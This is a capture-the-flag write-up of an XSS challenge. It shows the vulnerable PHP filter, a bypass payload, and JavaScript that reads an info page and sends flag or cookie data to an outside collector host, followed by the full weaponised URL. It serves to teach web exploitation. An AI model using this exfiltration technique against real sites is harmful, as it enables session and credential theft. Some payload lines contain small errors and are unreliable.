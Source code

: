 ### Hello
Reference: https://vaktibabat.github.io/posts/idek_2024/

This was an interestung xss challenge. When I visited the page, nothing displays on the page
According to index.php, there is a blacklist for what the name query can have

index.php
```
<?php
function Enhanced_Trim($inp) {
  $trimmed = array("\r", "\n", "\t", "/", " ");
  return str_replace($trimmed, "", $inp);
}

if(isset($_GET['name']))
{
  $name=substr($_GET['name'],0,23);
  echo "Hello, ".Enhanced_Trim($_GET['name']);
}
?>
```

Bypass for this blacklist: ```<svg%0conload=alert(123)>```
On entering this, we get a successful alert

Now since the flag is located in the flag cookie, we need to find a way to exfiltrate the cooie. However since forward slashes are blacklisted, to specify the url we can use:
```window.location.href.substring(0, 7)``` to substitute for https:// and ```window.location.href.substring(5, 6)``` for just /

However , the cookies have been set with HttpOnly attribute. A cookie with the HttpOnly attribute can’t be modified by JavaScript, for example using document.cookie; it can only be modified when it reaches the server. 

This is where the info.php page comes handy. An nginx bypass lets /info.php/index.php return the same info as info /info.php. Hence we can visit this page instead to get our cookies

The payload javascript:
```
fetch(window.location.href.substring(0, 7) + "idek-hello.chal.idek.team:1337" + bwindow.location.href.substring(5,6) + "info.php" + window.location.href.substring(5,6) + "index.php").then(function(response) {
	response.text().then(function(txt) {
	txt.split(`\n`).forEach(function(line) {
		if(line.indexOf("FLAG")!=-1) {
		fetch(window.location.href.substring(0, 7) + "mymockserver123456.free.beeceptor.com" + window.location.href.substring(5,6) + "cookies?resp=" + line)}
	})
	})
})
```
- The fetch() call returns us a promise with the Response of the /info.php/index.php page.
- text() function returns a promise with the text of the page as a string
- For each line, we want to send it to the attacker if it contains the flag by calling forEach on the lines:
- Then we check whether the string FLAG appears in the current line. If it does, it calls fetch with attacker.com/cookies?resp=

Final payload to be sent to the bot:
```
http://idek-hello.chal.idek.team:1337/?name=<svg%0Conload=fetch(window.location.href.substring(0, 7)%2b"idek-hello.chal.idek.team:1337"%2bwindow.location.href.substring(5,6)%2b"info.php"%2bwindow.location.href.substring(5,6)%2b"index.php").then(function(response){response.text().then(function(txt){txt.split(`\n`).forEach(function(line){if(line.indexOf("FLAG")!=-1){fetch(window.location.href.substring(0, 7)%2b"mymockserver123456.free.beeceptor.com"%2bwindow.location.href.substring(5,6)%2b"cookies?resp="%2bline)}})})})>
```

FLAG: idek{Ghazy_N3gm_Elbalad}
